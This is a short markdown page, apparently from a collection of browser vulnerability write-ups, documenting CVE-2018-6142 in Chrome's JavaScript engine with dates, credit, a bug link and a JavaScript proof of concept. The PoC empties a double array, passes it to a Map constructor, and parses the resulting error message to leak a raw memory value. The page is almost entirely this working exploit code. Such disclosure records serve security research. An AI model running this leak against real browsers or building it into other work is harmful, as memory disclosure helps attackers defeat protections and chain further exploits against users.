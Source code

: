 # CVE-2018-6142

- Report: Apr 2018
- Fix: May 2018
- Credit: Choongwoo Han

## PoC

```javascript
const double2int = (v) => {
  let buf = new ArrayBuffer(8);
  let farr = new Float64Array(buf);
  let iarr = new Uint32Array(buf);
  farr[0] = v;
  let d = (iarr[1] * 0x100000000) + iarr[0];
  return d;
};

try {
  // Create a double elements array.
  let iterable = new Array(10);
  for (let i = 0; i < 10; i++) {
    iterable[i] = 123.123;
  }

  iterable.length = 0;

  new Map(iterable);
} catch (e) {
  console.log(e);
  let regex = /TypeError: Iterator value ([0-9\.e\-]+) is not an entry object/;
  let val = parseFloat(regex.exec(e)[1]);
  console.log(`Memory Value: ${double2int(val).toString(16)}`);
}
```

## Reference

- [Issue](https://crbug.com/837939)
